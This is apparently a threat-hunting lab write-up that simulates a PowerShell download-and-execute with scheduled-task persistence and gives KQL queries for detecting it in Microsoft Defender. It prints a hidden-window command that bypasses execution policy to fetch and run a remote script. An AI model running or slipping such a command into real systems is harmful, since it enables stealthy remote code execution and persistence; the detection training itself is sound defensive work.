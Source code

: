 # Threat Event (Living Off The Land)
** Task Scheduler Persistence(Living off the Land)**

## Steps The "Bad Actor" Took Create Logs and IoCs:
1. Gained intial access(simulated) and downloaded malicious file called `themachine.html`
2. Once the download is complete, the file then executes a `PowerShell` script
3. Persistence is kept with an initial PowerShell script to create a task in `Task Scheduler` at logon 
4. Execution is triggered two minutes after logon and opens notepad with a message `Hello my son Welcome to the machine`

---

## Command Used To Download and Execute script:
`cmd.exe /c powershell.exe -ExecutionPolicy Bypass -NoProfile -WindowStyle Hidden -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/USERNAME/RESPOSITORY/FILE' -OutFile 'C:\YOUR\FILE\PATH\themachine.html.ps1'; & 'C:\YOUR\FILE\PATH\themachine.html.ps1'"`

---

## Tables used to detect IoCs:
| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceFileEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used for detecting `themachine.html` download as well as the creation of the task to run after logon. |

| **Parameter**       | **Description**                                                              |
|---------------------|------------------------------------------------------------------------------|
| **Name**| DeviceProcessEvents|
| **Info**|https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceinfo-table|
| **Purpose**| Used to detect the command line and PowerShell services executing payload.|

---

## Related Queries:
```kql
// PowerShell file downloaded: themachine.html.ps1
// Detect a file downloaded
DeviceProcessEvents
| where DeviceName == target_machine
| where AccountName == "training-vm-1186"
| where Timestamp >=  datetime(2025-04-03)
| where InitiatingProcessFileName in ("cmd.exe")
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by Timestamp desc

DeviceFileEvents
| where DeviceName startswith target_machine
| where ActionType in ("FileCreated", "FileRenamed")
| where Timestamp >=  datetime(2025-04-03)
| where FolderPath contains "Downloads"
| project Timestamp, DeviceName, ActionType, FileName, FolderPath, SHA256, Account = InitiatingProcessAccountName
| order by Timestamp desc

//Detect task created in System32 folder
DeviceFileEvents
| where DeviceName startswith target_machine
| where ActionType in ("FileCreated", "FileRenamed")
| where Timestamp >=  datetime(2025-04-03)
| where FolderPath contains "System32"
| project Timestamp, DeviceName, ActionType, FileName, FolderPath, SHA256, Account = InitiatingProcessAccountName
| order by Timestamp desc

// Detects notepad executing and writing a message to it
DeviceProcessEvents
| where DeviceName == target_machine
| where AccountName == "training-vm-1186"
| where Timestamp >=  datetime(2025-04-03)
| where InitiatingProcessFileName in ("powershell.exe")
| project Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine, InitiatingProcessFileName, InitiatingProcessCommandLine
| order by Timestamp desc
```

---

## Created By:
- **Author Name**: Larry Harris Jr
- **Author Contact**: https://www.linkedin.com/in/larryharrisjr/
- **Date**: April 4, 2025

## Validated By:
- **Reviewer Name**: 
- **Reviewer Contact**: 
- **Validation Date**: 

---

## Additional Notes:
- **None**

---

## Revision History:
| **Version** | **Changes**                   | **Date**         | **Modified By**   |
|-------------|-------------------------------|------------------|-------------------|
| 1.0         | Initial draft                  | `April 4, 2025`  | `Larry Harris Jr`   
